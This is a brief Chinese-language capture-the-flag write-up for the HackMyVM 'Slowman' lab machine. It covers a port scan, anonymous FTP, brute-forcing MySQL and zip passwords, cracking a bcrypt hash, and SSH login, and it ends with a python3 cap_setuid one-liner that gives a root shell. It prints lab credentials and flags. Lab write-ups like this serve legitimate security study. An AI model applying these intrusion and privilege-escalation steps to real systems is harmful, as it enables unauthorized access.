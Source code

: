 # Slowman

2025.03.25 https://hackmyvm.eu/machines/machine.php?vm=Slowman

[video](https://www.bilibili.com/video/BV1hTo4YGEtJ/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT     STATE  SERVICE
20/tcp   closed ftp-data
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
3306/tcp open   mysql
```

web 上什么都没有。

ftp 可匿名，进入后修改成 passive 模式，得到 allowedusersmysql.txt 内容 trainerjeff ，给了 mysql 用户名，直接爆破，得到密码 soccer1

登陆数据库发现 trainers_db.users 表，内容：

```
MySQL [trainers_db]> select * from users;
+----+-----------------+-------------------------------+
| id | user            | password                      |
+----+-----------------+-------------------------------+
|  1 | gonzalo         | tH1sS2stH3g0nz4l0pAsSWW0rDD!! |
|  2 | $SECRETLOGINURL | /secretLOGIN/login.html       |
+----+-----------------+-------------------------------+
```

使用 gonzalo 用户凭据登陆 http://192.168.5.40/secretLOGIN/login.html 发现文件 http://192.168.5.40/secretgym/serverSHARE/credentials.zip 下载。

zip 有密码，爆破得到解压密码 spongebob1 得到内容：

```
$USERS: trainerjean

$PASSWORD: $2y$10$DBFBehmbO6ktnyGyAtQZNeV/kiNAE.Y3He8cJsvpRxIFEhRAUe1kq
```

再次爆破，得到明文密码 tweety1 使用用户名 trainerjean 登陆 ssh。

先拿到 user flag：

```
trainerjean@slowman:~$ cat user.txt
YOU9et7HEpA$SwordofS10wMan!!
```

进行系统枚举，发现 getcap : /usr/bin/python3.10 cap_setuid=ep 直接运行命令 setuid(0)拿到 root 权限：

```
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```
root@slowman:/root# cat root.txt
Y0UGE23t7hE515roo7664pa5$WoRDOFSlowmaN!!
```
